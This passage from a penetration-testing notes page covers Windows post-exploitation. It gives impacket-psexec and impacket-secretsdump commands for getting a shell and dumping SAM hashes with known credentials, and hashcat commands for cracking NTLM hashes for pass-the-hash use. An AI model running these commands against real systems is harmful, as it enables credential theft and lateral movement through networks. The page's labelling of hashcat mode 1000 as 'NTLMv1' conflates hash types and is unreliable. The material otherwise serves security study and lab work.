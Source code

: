 ```
impacket-psexec domain/user:Password1@<pwn3d_IP>
```

## Dumping Hashes w/ secretsdump

Dumping hashes w/ known valid creds:

```
impacket-secretsdump domain/user:Password1@<pwn3d_IP>
```

* If you have more than 1 pwn3d IP, re run the tool with the other IP(s)!
* Focus on the local SAM hashes

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

* Grab the hashes and place them into a hashes.txt file to crack them and pass them around the network!!!

## Cracking NTLM Hashes w/ Hashcat

<mark style="color:yellow;">Note: You can pass around NTLMv1 hashes. You CAN'T pass around NTLMv2 hashes.</mark>

<mark style="color:yellow;">NTLMv1 Hashes: 1000</mark>

<mark style="color:yellow;">NTLMv2 Hashes: 5600</mark>

Step 1: Copy the hashes and place them into the Hashcat folder

Step 2: Attempt to crack the hashes

```
hashcat64.exe -m 1000 hashes.txt rockyou.txt -O
```

Blank Passwords:

<figure><img src="../../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>
